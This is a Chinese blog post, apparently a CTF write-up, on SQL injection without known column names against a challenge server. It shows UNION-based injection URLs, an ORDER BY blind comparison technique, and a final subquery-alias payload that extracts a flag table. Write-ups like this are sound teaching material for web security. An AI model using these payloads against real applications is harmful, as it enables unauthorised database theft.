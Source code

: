 ```yaml
---
title: "一道题引发的无列名注入"
date: 2019-08-22T20:41:24+08:00
lastmod: 2019-08-22T20:41:24+08:00
draft: false
tags: ['ctf']
categories: ['ctf']
comment: true
---
```


@Syst1m的考核题

<!--more-->
题目地址 http://152.136.179.79:18084/ 传入id=3为flag的id。

常规联合查询注入 
```
http://152.136.179.79:18084/?id=3 union select 1,2,3
```
三个字段
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select table_name from information_schema.tables where table_schema=database())
```
拿到flag所在的表，继续查列名
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select column_name from information_schema.columns where table_name='this_1s_th3_fiag_tab13')
```
死活查不出来，应该是过滤了column关键字，没有列名怎么查出来数据呢？？？

有两种方法
1. order by盲注
2. 子查询

本地测试建表

![20190822205338](https://y4er.com/img/uploads/20190822205338.png)

![20190822205621](https://y4er.com/img/uploads/20190822205621.png)

# order by盲注

order by用于根据指定的列对结果集进行排序。一般上是从0-9a-z这样排序，不区分大小写。

先来本地测试一下

![20190822210044](https://y4er.com/img/uploads/20190822210044.png)

可以看到我们构造的数据排在了第一行

![20190822210124](https://y4er.com/img/uploads/20190822210124.png)

仍然在第一行

![20190822210155](https://y4er.com/img/uploads/20190822210155.png)

当拿'q'和'pass'做比较时，我们构造的数据被排在了第二行。由此可以来根据不同的回显来逐位判断。

拿我们这道题来说

![20190822210915](https://y4er.com/img/uploads/20190822210915.png)

1的时候我们的数据在前

![20190822210948](https://y4er.com/img/uploads/20190822210948.png)

2的时候原始数据在前，说明第一位是1

然后判断第二位

![20190822211104](https://y4er.com/img/uploads/20190822211104.png)

1a的时候我们的数据在前

![20190822211144](https://y4er.com/img/uploads/20190822211144.png)

1b的时候原始数据在前，说明第二位是1a

由此逐位判断。

# 子查询

在无列名的情况下，用子查询可以很简单的将数据跑出来。

子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询（inner query）语句的查询结果，可以为外层查询（outer query）语句提供查询条件。

![20190822214132](https://y4er.com/img/uploads/20190822214132.png)

**这个语句将列名转换为了1,2,3**，这个时候列名就已知了，我们可以用子查询将数据归并。

![20190822214824](https://y4er.com/img/uploads/20190822214824.png)

此时就能查出来数据了，然后我们再来看这个题。

我们已知了表名为`this_1s_th3_fiag_tab13`，但是不知道这个表有几个字段

![20190822220530](https://y4er.com/img/uploads/20190822220530.png)

可以用联合查询的方式来判断字段数。

查出数据

![20190822220706](https://y4er.com/img/uploads/20190822220706.png)

拿到我们这个题里来

![20190822220930](https://y4er.com/img/uploads/20190822220930.png)

payload

```
http://152.136.179.79:18084/?id=3 union select 1,2,x.2 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from this_1s_th3_fiag_tab13)x
```

子查询真是个好东西👍

# 写在文后

本文介绍了两种无列名注入的方式，很巧妙的在没有列名的情况下查出来数据，在实际利用中更推荐用子查询的方式，毕竟盲注有可能费力不讨好。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**